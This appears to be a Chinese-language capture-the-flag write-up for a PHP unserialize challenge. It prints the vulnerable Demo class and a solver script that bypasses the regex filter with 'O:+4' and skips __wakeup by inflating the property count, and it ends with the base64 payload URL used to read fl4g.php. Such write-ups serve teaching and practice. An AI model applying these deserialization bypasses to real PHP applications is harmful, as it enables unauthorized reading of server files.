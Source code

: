 # Web_php_unserialize
## 题目描述
暂无  

## 思路
http://220.249.52.133:45936  
点开题目链接，直接就是一段 php 代码：  
![avatar](./picture/Web_php_unserialize_1.png)  
并且，有一个小提示，小秘密在 f14g.php 文件中。那我们来分析一下代码，看看怎么才能访问到 f14g.php 文件。  
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file;  //构造函数，对类的变量进行初始化
    }
    //析构函数
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }

    //魔术方法，如果有反序列化的使用，在反序列化之前会先调用这个方法
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    //正则匹配，如果在var变量中存在O/C:数字(O:数字或者C:数字这样的形式})
    //不区分大小写，就输出stop hacking!否则的话就进行反序列化
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
审计完成之后，思路就很清晰了，对 Demo 这个类进行序列化，base 64 加密之后，赋值给 var 变量进行 GET 传参就行了。  

在类 Demo 中有三个方法，一个构造，一个析构，还有就是一个魔术方法，构造函数 __construct() 在程序执行开始的时候对变量进行赋初值。析构函数 __destruct()，在对象所在函数执行完成之后，会自动调用，这里就会高亮显示出文件。  

在反序列化执行之前，会先执行 __wakeup 这个魔术方法，所以需要绕过，当成员属性数目大于实际数目时可绕过 wakeup 方法，正则匹配可以用 + 号来进行绕过。  
```php
<?php 
class Demo { 
    private $file = 'fl4g.php'; // $file 改成 fl4g.php
}
$a= serialize(new demo);
$a= str_replace('O:4', 'O:+4',$a); //绕过 preg_match
$a= str_replace(':1:', ':2:',$a); //绕过 wakeup
echo base64_encode($a);
?>
```
运行结果如下：  
![avatar](./picture/Web_php_unserialize_2.png)  
再根据运行结果构造一个链接：  
http://220.249.52.133:45936/index.php/?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==  
得到 flag：  
![avatar](./picture/Web_php_unserialize_3.png)  
